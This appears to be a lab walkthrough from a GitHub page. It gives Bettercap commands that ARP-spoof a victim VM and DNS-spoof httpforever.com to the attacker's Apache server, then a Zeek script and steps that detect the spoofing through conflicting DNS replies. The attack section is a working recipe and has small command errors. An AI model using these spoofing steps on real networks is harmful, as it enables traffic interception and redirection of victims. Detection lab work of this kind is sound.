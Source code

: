 ## Simulate DNS Spoofing from Attacker VM

Start Bettercap first 

```bash
sudo bettercap -iface eth0
```

Scan the Network
Enable network probing and view discovered devices:

```bash
net.probe on
net.show
```
 Find your victim's IP.

 ![image](https://github.com/user-attachments/assets/5b52ba33-122a-48bd-9870-dc5ba6f11d24)

victim ip 10.0.2.6

Start the Apache server using

```bash
sudo systmctl start apache2
```

Launch ARP Spoof Attack
 Target the victim:

```bash
set arp.spoof.targets 10.0.2.6
```
Start ARP spoofing:

```bash
arp.spoof on
```
Now Start DNS Spoofing 

```bash
set dns.spoof.domains httpforever.com
```
```bash
set arp.spoof.targets 10.0.2.6
```
```bash
set arp.spoof.address 10.0.2.5
```
```bash
dns.spoof on
```
 Sniff Victim’s Traffic
Enable network sniffing:

```
net.sniff on
```

Bettercap is displaying the Spoofing happening

![image](https://github.com/user-attachments/assets/1a06c906-be27-4439-aba6-ab03e0e99167)

On the victim's browser also the site was redirected to the apache page of the attacker's ip

![image](https://github.com/user-attachments/assets/d07e228a-faba-40b3-8ad8-98be14c720fb)

## Detect ARP Spoofing using Zeek

Add the DNS script to zeek

Create a dns-spoof.zeek file inside the zeek site directory

```bash
nano /opt/zeek/share/zeek/site/dns-spoof.zeek
```
Now paste the script inside it

```bash
@load base/protocols/dns

module DNS_Spoof_Detect;

export {
    redef enum Notice::Type += {
        DNS_Spoofing_Detected
    };
    
    # Time window to detect conflicting responses (as interval)
    const conflict_window = 2.0sec &redef;
    
    # Enable debug logging
    const debug_mode = T &redef;
}

# Track recent DNS responses
global recent_dns_responses: table[string] of set[addr] &read_expire=10sec;
global last_query_time: table[string] of time &write_expire=5sec;

function log_debug(msg: string)
{
    if (debug_mode) {
        print fmt("%s: %s", current_time(), msg);
    }
}

event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count)
{
    if (qtype == 1) {  # Only A records
        local host = to_lower(query);
        last_query_time[host] = network_time();
        log_debug(fmt("DNS query: %s from %s", host, c$id$orig_h));
    }
}

event dns_A_reply(c: connection, msg: dns_msg, ans: dns_answer, a: addr)
{
    local host = to_lower(ans$query);
    
    # Only process if we've seen a recent query for this host
    if (host !in last_query_time) {
        log_debug(fmt("Ignoring response for %s (no recent query)", host));
        return;
    }
    
    # Initialize response tracking
    if (host !in recent_dns_responses) {
        recent_dns_responses[host] = set();
        log_debug(fmt("First response for %s: %s", host, a));
    }
    
    # Check for IP conflicts within the detection window
    if (a !in recent_dns_responses[host]) {
        local time_since_query = network_time() - last_query_time[host];
        
        if (|recent_dns_responses[host]| > 0 && time_since_query < conflict_window) {
            log_debug(fmt("DNS CONFLICT: %s -> %s (previous: %s) from %s", 
                         host, a, recent_dns_responses[host], c$id$resp_h));
            
            NOTICE([$note=DNS_Spoofing_Detected,
                    $conn=c,
                    $msg=fmt("DNS spoofing detected for %s", host),
                    $sub=fmt("New IP: %s, Previous IPs: %s, Time since query: %.2f sec", 
                            a, recent_dns_responses[host], time_since_query)]);
        }
        else if (|recent_dns_responses[host]| > 0) {
            log_debug(fmt("New IP for %s after window: %s (time: %.2f sec)", 
                         host, a, time_since_query));
        }
        
        # Add this IP to known responses
        add recent_dns_responses[host][a];
    }
    else {
        log_debug(fmt("Known IP for %s: %s", host, a));
    }
}
```
Open your local Zeek configuration file 

```bash
nano /opt/zeek/share/zeek/site/local.zeek
```
Add this line to load the DNS script:

```zeek
@load ./dns-spoof
```
![image](https://github.com/user-attachments/assets/5db476d0-baef-4449-9cd4-d2eb3a9905da)

Save and close it

 Deploy/Restart Zeek to apply your updated configuration:

```bash
cd /opt/zeek/bin
sudo ./zeekctl deploy
```
This restarts Zeek and loads the new DNS detection logic Scrpit .

now after some time we will able to see notice.log file in current .
enter as root user  `sudo su`

```
cd /opt/zeek/logs/current
```

Tail the file to monitor live, then perform the attack.We can see that dns spoofing as dectected.

```
tail -f notice.log
```

![Screenshot 2025-06-30 165237](https://github.com/user-attachments/assets/d651f948-86ba-43dd-87d1-b6c0287cfbb9)

